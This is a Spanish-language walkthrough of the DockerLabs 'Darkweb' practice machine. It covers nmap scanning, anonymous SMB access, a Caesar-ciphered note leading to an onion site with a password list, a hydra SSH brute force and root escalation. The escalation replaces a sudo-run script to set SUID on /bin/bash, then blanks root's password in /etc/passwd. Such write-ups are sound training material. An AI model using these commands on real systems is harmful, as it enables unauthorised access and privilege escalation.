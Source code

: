 ```yaml
---
title: Darkweb
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-24
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-darkweb/darkweb_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - smb
  - ftp
  - misconfigurations
  - data_leaks
  - password_attacks
  - onion
  - tor
  - sudo_abuse
  - information_gathering
  - misconfiguration_exploitation
  - data_leak_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.077 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.077/0.077/0.077/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 139/open/tcp//netbios-ssn///, 445/open/tcp//microsoft-ds///       Ignored State: closed (65532)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ sudo nmap -sCV -p22,139,445 -vvv -oN nmap2 127.17.0.2
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:df:30:8b:17:c5:3c:80:1c:88:f1:f8:c0:ac:cc:fa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIwcQLG7cG3zykVrxNhY3Zf8Oeu1rZrDHXovo6xce8rYj7bvEKWHidRa32QtZQlumnfzwSMFrfeat8T1st72IVI=
|   256 aa:6a:33:65:fc:54:b7:8f:98:ff:1f:3d:79:a3:05:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPi9HNorx51v8Q8nh0LuhsEgTIC1KB/UrY6Sw5/Im9y4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 28228/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 46105/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 29351/udp): CLEAN (Failed to receive data)
|   Check 4 (port 64790/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-12-31T16:30:59
|_  start_date: N/A
|_clock-skew: 0s
```

---
## Misconfiguration & Data Leak Exploitation

Empiezo la enumeración explorando recursos compartidos de SMB.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ smbclient -L //127.17.0.2/ -N
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb1_1.png)

El resultado muestra un recurso compartido llamado `darkshare` que permite acceso anónimo.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ smbclient //127.17.0.2/darkshare -N 
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb1_2.png)

Accedo al recurso `darkshare` y descargo los archivos dentro.

```terminal
smb: \> get ilegal.txt 
getting file \ilegal.txt of size 204 as ilegal.txt (199.2 KiloBytes/sec) (average 505.1 KiloBytes/sec)

/home/kali/Documents/dockerlabs/darkweb:-$ cat ilegal.txt
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb1_3.png)

El contenido del archivo `ilegal.txt` está cifrado utilizando el cifrado César. Utilizo un servicio en línea [Dcode](https://www.dcode.fr/cifrado-esar) para descifrar el archivo. El texto revelado contiene una dirección `.onion` que apunta a un servicio en la red Tor.

![](assets/img/dockerlabs-writeup-darkweb/darkweb1_4.png)

Al acceder al sitio `.onion`, exploro varias rutas sin encontrar contenido relevante.

![](assets/img/dockerlabs-writeup-darkweb/darkweb2_1.png)
![](assets/img/dockerlabs-writeup-darkweb/darkweb2_2.png)
![](assets/img/dockerlabs-writeup-darkweb/darkweb2_3.png)

Hasta que llego a la siguiente ruta, `Access the Darkest Web` > `Hidden Marketplace` > `Confidential List's Passwords`. En esta ubicación, se encuentra un archivo de texto que contiene una lista de contraseñas.

![](assets/img/dockerlabs-writeup-darkweb/darkweb2_4.png)

Dado que no obtuve nada más relevante, intento un ataque de fuerza bruta al servicio SSH. Basándome en la temática de la máquina, utilizo el nombre de usuario `dark` y la lista de contraseñas obtenida.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ hydra -l dark -P passlist.txt ssh://172.17.0.2 -t 60 -I
[22][ssh] host: 172.17.0.2   login: dark   password: oniondarkgood
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb2_5.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/darkweb:-$ ssh dark@127.17.0.2
dark@127.17.0.2's password: oniondarkgood

dark@kali:~$ id
uid=1001(dark) gid=1001(dark) groups=1001(dark),100(users)
```

---
## Privilege Escalation

```terminal
dark@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
dark:x:1001:1001:dark,,,:/home/dark:/bin/bash
```

El usuario `dark` tiene privilegios para ejecutar el script `/home/dark/hidden.py` con permisos de `sudo`, sin necesidad de contraseña.

```terminal
dark@kali:~$ sudo -l
Matching Defaults entries for dark on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dark may run the following commands on kali:
    (ALL : ALL) NOPASSWD: /home/dark/hidden.py
```

El script ejecuta el archivo `/usr/local/bin/Update.sh` con permisos de `root`.

```terminal
dark@kali:~$ cat hidden.py 
```

![](assets/img/dockerlabs-writeup-darkweb/darkweb3_1.png)

```terminal
dark@kali:~$ sudo /home/dark/hidden.py
root
Script ejecutado con éxito.
```

El archivo `/usr/local/bin/Update.sh` es propiedad del usuario `root` y no tiene permisos de escritura para otros usuarios. Sin embargo, tiene permisos de escritura para el grupo `root` y permisos de lectura para todos los usuarios.

En lugar de modificar el contenido existente del archivo (lo cual no puedo hacer directamente), lo elimino y creo uno completamente nuevo. Este cambio es posible porque el directorio en el que se encuentra `/usr/local/bin/` tiene permisos que me permiten borrar y crear archivos nuevos como el usuario `dark`.

```terminal
dark@kali:~$ rm /usr/local/bin/Update.sh

dark@kali:~$ cat /usr/local/bin/Update.sh
#!/bin/bash

chmod u+s /bin/bash
```

Este nuevo script establece el bit SUID en el binario de Bash `/bin/bash`, lo que permitirá ejecutar Bash con privilegios de `root`.

Como el script `hidden.py` ejecuta `/usr/local/bin/Update.sh` con permisos de `root`, el bit SUID se aplica correctamente al binario de Bash.

```terminal
dark@kali:~$ sudo /home/dark/hidden.py
Script ejecutado con éxito.

dark@kali:~$ /bin/bash -p
bash-5.2# sed -i 's/root:x:/root::/g' /etc/passwd && su

root@kali:/home/dark# id
uid=0(root) gid=0(root) groups=0(root)
```
